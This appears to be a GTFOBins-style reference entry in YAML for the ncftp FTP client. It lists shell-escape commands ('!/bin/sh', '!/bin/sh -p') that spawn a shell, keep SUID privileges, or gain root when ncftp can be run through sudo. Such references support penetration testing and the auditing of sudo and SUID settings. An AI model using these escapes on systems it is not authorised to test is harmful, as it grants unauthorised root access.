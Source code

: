 ```yaml
---
functions:
  shell:
    - code: |
        ncftp
        !/bin/sh
  limited-suid:
    - code: |
        sudo ncftp
        !/bin/sh -p
  sudo:
    - code: |
        sudo ncftp
        !/bin/sh
---
```

